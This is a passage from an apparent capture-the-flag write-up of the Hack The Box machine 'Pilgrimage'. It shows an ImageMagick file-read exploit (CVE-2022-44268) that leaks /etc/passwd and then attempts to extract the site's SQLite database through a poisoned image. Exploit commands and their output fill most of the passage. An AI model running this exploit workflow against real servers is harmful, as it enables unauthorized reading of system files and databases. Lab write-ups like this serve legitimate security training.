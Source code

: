 ```bash
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:110:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
emily:x:1000:1000:emily,,,:/home/emily:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false
```

Success! We can now create a user list and grep just the accounts that have a shell:

```bash
$ sudo python3 CVE-2022-44268.py --url http://pilgrimage.htb/shrunk/65a91a1ec4c4c.png > ../users

$ cat ../users | grep sh$
root:x:0:0:root:/root:/bin/bash
emily:x:1000:1000:emily,,,:/home/emily:/bin/bash
```

As it seems, there are just 2 users: `root` and `emily`. By further enumerating the files, we can discover that the app uses `sqlite` and the path, `/var/db/pilgrimage` is shown:

![](login_source.png)

We can try using the exploit to exfiltrate the database instead of the `passwd` file:

```bash
$ sudo python3 CVE-2022-44268.py --image ../dog.jpeg --file-to-read /var/db/pilgrimage --output poisoned_dog.jpeg

$ sudo python3 CVE-2022-44268.py --url http://pilgrimage.htb/shrunk/65a91ec973fd8.png > ../pilg.db
Traceback (most recent call last):
  File "/home/kali/htb/fullpwn/pilgrimage/CVE-2022-44268/CVE-2022-44268.py", line 48, in <module>
    main()
  File "/home/kali/htb/fullpwn/pilgrimage/CVE-2022-44268/CVE-2022-44268.py", line 17, in main
    decrypted_profile_type = bytes.fromhex(raw_profile_type_stipped).decode('utf-8')
                             ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
UnicodeDecodeError: 'utf-8' codec can't decode byte 0x91 in position 99: invalid start byte
```

The above process does not work. However, we can copy the uploaded image's link and download it using `wget`:

![](copy_image_link.png){: .normal width="65%"}

```bash
$ wget http://pilgrimage.htb/shrunk/65a921159fba8.png
--2024-01-18 13:01:23--  http://pilgrimage.htb/shrunk/65a921159fba8.png
Resolving pilgrimage.htb (pilgrimage.htb)... 10.10.11.219
Connecting to pilgrimage.htb (pilgrimage.htb)|10.10.11.219|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 22406 (22K) [image/png]
Saving to: ‘65a921159fba8.png’

65a921159fba8.png              100%[====================================================>]  21.88K  --.-KB/s    in 0.03s

2024-01-18 13:01:23 (710 KB/s) - ‘65a921159fba8.png’ saved [22406/22406]
```

